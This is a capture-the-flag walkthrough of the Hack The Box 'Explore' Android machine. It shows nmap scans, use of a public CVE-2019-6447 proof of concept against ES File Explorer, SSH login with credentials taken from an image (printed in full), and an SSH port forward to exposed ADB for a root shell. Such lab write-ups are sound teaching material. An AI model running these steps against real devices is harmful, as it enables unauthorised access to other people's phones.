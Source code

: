 ```yaml
---
title:     "Hack The Box - Explore"
tags: [easy,android,adb,cve]
categories: HackTheBox
---
```

[![info_card](/img/explore/info_card.png)](/img/explore/info_card.png)

# User
Explore is an easy rated machine on HackTheBox by [bertolis](https://www.hackthebox.eu/home/users/profile/27897). For the user part we will exploit an open port for ES file explorer to retrieve ssh credentials in a jpg file. After this we will abuse adb being enabled and listening to get a shell as the root user after forwarding it to our machine.

## Nmap

As always we start our enumeration off with a nmap scan against all ports, followed by a script and version detection scan against the open ones to get an overview of the initial attack surface.

`All ports`
```
$ sudo nmap -p- -T4 10.129.167.241
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 20:21 GMT
Nmap scan report for 10.129.167.241
Host is up (0.044s latency).
Not shown: 65531 closed ports
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
38363/tcp open     unknown
59777/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 82.24 seconds
```

`Script and version`
```
$ sudo nmap -sC -sV -p 2222,5555,38363,59777 10.129.167.241
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 20:25 GMT
Nmap scan report for 10.129.167.241
Host is up (0.033s latency).

PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey:
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
38363/tcp open     unknown
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:04 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest:
|     HTTP/1.1 412 Precondition Failed
|     Date: Sun, 27 Jun 2021 20:27:04 GMT
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.0 501 Not Implemented
|     Date: Sun, 27 Jun 2021 20:27:10 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:10 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ??random1random2random3random4
|   TerminalServerCookie:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|_    Cookie: mstshash=nmap
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
...[snip]...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.22 seconds
```

# ES file explorer

Port 59777 on an android device is normally used for ES file explorer. Opening the port in our webbrowser we see that directory listing is disabled.

[![listing_disabled](/img/explore/listing_disabled.png)](/img/explore/listing_disabled.png)

The running installation is vulnerable to [CVE-2019-6447](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln), which let's us read files from the device or start an app. Looking through the images on the device we find an interesting looking `creds.jpg` file.

```
$ python poc.py  --cmd listPics --ip 10.129.167.241
[*] Executing command: listPics on 10.129.167.241
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}
```

The image shows a note with the password for the user katie. Trying it on the open ssh port with the credentials `kristi:Kr1sT!5h@Rp3xPl0r3!` we get access to the device.

[![creds](/img/explore/creds.png)](/img/explore/creds.png)

```
$ ssh kristi@10.129.167.241 -p 2222
Password authentication
Password:
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
:/ $
```

Looking around in the storage folder which also had the image in it we find the user flag.

```
:/storage/emulated/0 $ wc -c user.txt
33 user.txt
```

# Root

We earlier saw that port 5555 showed up in our nmap scan. This is most likely the Android Debug Bridge being enabled on the device.

> “The adb command facilitates a variety of device actions, such as installing and debugging apps, and it provides access to a Unix shell that you can use to run a variety of commands on a device.” — Android’s developer portal

Being able to communicate with it would most likely give us unauthenticated root access to the device.
Checking it again we can see it is listening on all interfaces but seems to be filtered for us.

```
:/storage/emulated/0 $ ss -ln
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
...[snip]...
tcp    LISTEN     0      50        *:2222                  *:*
tcp    LISTEN     0      4         *:5555                  *:*
```

We can however access it if we forward the port to our machine with ssh. For this we open the ssh console in our connection by entering `~C` on a new line and issue the local port forward.

```
:/storage/emulated/0 $
ssh> -L:5555:127.0.0.1:5555
Forwarding port.
```

After installing adb on our machine with `apt install adb` we kill the adb server, in case it was already running, so it restarts on the next command.

```
$ adb kill-server
```

We then list all devices to be able to connect to our target with its device name in the next step.

```
$ adb devices
* daemon not running; starting now at tcp:5037

* daemon started successfully
List of devices attached
emulator-5554   device

```

Now we can simply connect to the debugging bridge as the root user and drop into a root shell with `adb shell`.

```
$ adb -s emulator-5554 root
restarting adbd as root
```

```
$ adb shell
x86_64:/ # whoami
root
```

Being the root user we can now add the flag to our collection

```
x86_64:/ # wc -c /data/root.txt
33 /data/root.txt
```
